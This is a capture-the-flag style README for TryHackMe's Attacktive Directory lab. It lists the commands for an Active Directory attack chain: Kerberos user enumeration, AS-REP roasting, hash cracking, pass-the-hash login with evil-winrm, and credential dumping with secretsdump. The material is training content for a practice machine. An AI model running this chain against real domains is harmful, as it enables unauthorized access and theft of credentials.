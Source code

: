 <div align="center">
                  
# [Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)
![image](https://user-images.githubusercontent.com/51442719/177435882-34e6b079-d835-4ae0-9e97-6b39078e0c16.png)

</div>

- [ ] Task 1  [`Intro` Deploy The Machine]()
- [ ] Task 2  [`Intro` Setup]()
- [ ] Task 3  [`Enumeration` Welcome to Attacktive Directory]()
- [ ] Task 4  [`Enumeration` Enumerating Users via Kerberos]()
- [ ] Task 5  [`Exploitation` Abusing Kerberos]()
- [ ] Task 6  [`Enumeration` Back to the Basics]()
- [ ] Task 7  [`Domain Privilege Escalation` Elevating Privileges within the Domain]()
- [ ] Task 8  [`Flag Submission` Flag Submission Panel]()

---


---

- ## Task 1  [`Intro` Deploy The Machine]()

---

- ## Task 2  [`Intro` Setup]()

---

- ## Task 3  [`Enumeration` Welcome to Attacktive Directory]()

---

- ## Task 4  [`Enumeration` Enumerating Users via Kerberos]()

---

- ## Task 5  [`Exploitation` Abusing Kerberos]()

---

- ## Task 6  [`Enumeration` Back to the Basics]()

---

- ## Task 7  [`Domain Privilege Escalation` Elevating Privileges within the Domain]()

---

- ## Task 8  [`Flag Submission` Flag Submission Panel]()

---

# Commands Used:

## Enumeration
```bash
nmap -p- -A -nP $IP
```

## DNS domain name and add it to `/etc/hosts`
```bash
echo $IP spookysec.local >> /etc/hosts
```

```bash
enum4linux -a spookysec.local
```

```bash
kerbrute userenum -d spookysec.local --dc spookysec.local userlist.txt -t 100
```

```bash
find / -type f -name 'GetNPUsers.py'
```

## Exploiting Kerberos
```bash
impacket-GetNPUsers spookysec.local/svc-admin -no-pass
or
impacket-GetNPUsers -dc-ip spookysec.local spookysec.local/svc-admin -no-pass
```

```bash
smbclient -L \\\\$IP\\ -U 'svc-admin' -P 'm********t2005'
```

```bash
john kerbhash --wordlist=/passwords.txt
or
hashcat -a 0 -m 18200 kerbhash password.txt --force

```

```bash
smbmap -H spookysec.local -d spookysec.local -u svc-admin -p m********t2005
```

```bash
git clone https://github.com/Hackplayers/evil-winrm.git
```

```bash
cd evil-winrm 
gem install evil-winrm
```

```bash
evil-winrm -i $IP -u Administrator -H e48xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

```bash
impacket-secretsdump -dc-ip spookysec.local backup@spookysec.local
```


---

https://fr33s0ul.tech/attacktive-directory-thm-write-up/
